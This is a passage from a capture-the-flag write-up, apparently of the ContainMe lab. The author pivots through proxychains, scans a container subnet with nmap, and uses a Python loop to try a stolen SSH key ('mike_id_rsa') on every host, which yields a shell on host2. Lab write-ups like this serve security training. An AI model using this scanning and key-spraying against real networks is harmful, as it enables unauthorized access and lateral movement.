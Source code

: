Now, since we don't know how many containers are running, I'll run a very, very lite port scanning to the entire container subnet via `nmap` with `proxychains`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# proxychains nmap --top-port=5 172.16.20.0/24
[...]
Nmap scan report for 172.16.20.0
Host is up (0.00016s latency).

PORT    STATE    SERVICE
21/tcp  filtered ftp
22/tcp  filtered ssh
23/tcp  filtered telnet
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for 172.16.20.1
Host is up (0.0017s latency).

PORT    STATE    SERVICE
21/tcp  filtered ftp
22/tcp  filtered ssh
23/tcp  filtered telnet
80/tcp  filtered http
443/tcp filtered https
[...]
```

However, all of them are being filtered...

**Then I guess I'll have to write a simple python script to bruteforce the SSH port:**
```py
#!/usr/bin/env python3

import os

for host in range(1,254):
	os.system(f'proxychains ssh -i mike_id_rsa -o PasswordAuthentication=no mike@172.16.20.{host}')
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# python3 ssh_port_enum.py                                                    
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.20.5:22 <--socket error or timeout!
ssh: connect to host 172.16.20.5 port 22: Connection refused
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.20.6:22  ...  OK
[...]
mike@host2:~$ whoami;hostname;id;ip a
mike
host2
uid=1001(mike) gid=1001(mike) groups=1001(mike)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:17:60:9e brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.6/24 brd 172.16.20.255 scope global eth0
```